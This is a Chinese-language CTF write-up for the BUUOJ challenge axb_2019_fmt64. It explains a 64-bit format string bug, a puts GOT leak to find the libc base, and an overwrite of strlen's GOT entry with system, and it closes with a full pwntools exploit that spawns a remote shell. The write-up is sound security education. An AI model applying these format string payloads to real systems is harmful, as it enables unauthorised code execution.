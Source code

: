 # axb_2019_fmt64

有一个坑点

由于这次是64位程序，**发送8字节地址时高位必定为0**，如下图，导致在sprintf时发生了截断。也就是说格式化字符串并没有接收到在后面发送的`%8$s`，所以这次把`%8$s`放在前面发送，显然，要改成'%9$s'并加以适当的填充。

![image-20210418010221687](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740639.png)

改正后：

![image-20210418010828561](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041741729.png)

另外，不知道为什么在打远端时，无法泄露printf的真实地址，这一点也与上题不同，所以本题采用泄露puts的真实地址来计算libc的基地址(顺便一提也无法泄露strlen的真实地址，难受)

system的真实地址有8字节，即使能拆成两半分两次写入四字节，也是非常慢的（这是我之前的写法，会报错），但由于system和strlen在同一个libc中，所以两者真实地址的高字节部分是一样的，我们可以打印出puts的真实地址来验证

![image-20210418164119314](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041741244.png)

可以看到低位的三个字节不同，因此可以只改strlen的低三个字节为system的低三个字节

写exp时，还有一点要注意，因为system_high_addr - 9可能为两位数也可能为3位数（可以自己验证），所以payload2前部分的长度是不确定（可能是24也可能是25，亲自验证）的，故我们需要使用ljust将payload2的前半部分填充至32字节（8的倍数），再在后面加上strlen的got表地址，注意在strlen_got_addr处写入两字节，在strlen_got_addr+2处写入一字节。

exp如下：

```
from pwn import*
context(arch = 'amd64', os = 'linux', log_level = 'debug')
p = remote('node3.buuoj.cn', 28992)
#p = process('./pwn')
e = ELF('./pwn')
puts_got_addr = e.got['puts']
strlen_got_addr = e.got['strlen']
p.recvuntil("Please tell me:")
payload1 = b'%9$saaaa' + p64(puts_got_addr)
p.sendline(payload1)
puts_true_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8,'\x00'))
print("puts_addr:" + hex(puts_true_addr))
libc = ELF('./libc-2.23.so')
libc_base_addr = puts_true_addr - libc.symbols['puts']
system_true_addr = libc_base_addr + libc.symbols['system']
print("system_addr:" + hex(system_true_addr))
system_low_addr = system_true_addr & 0xffff
system_high_addr = (system_true_addr >> 16) & 0xff
print("system_low_addr:" + hex(system_low_addr))
print("system_high_addr:" + hex(system_high_addr))
"""
system_addr:0x7fbb04e1c7a0
system_low_addr:0xc7a0
system_high_addr:0xe1
"""
p.recvuntil("Please tell me:")
payload2 = '%' + str(system_high_addr - 9) + 'c%12$hhn' + '%' + str(system_low_addr - system_high_addr) + 'c%13$hn'
payload2 = payload2.ljust(32,'a') + p64(strlen_got_addr + 2) + p64(strlen_got_addr)
p.sendline(payload2)
p.recvuntil("Please tell me:")
p.sendline(';/bin/sh')
p.interactive()
```

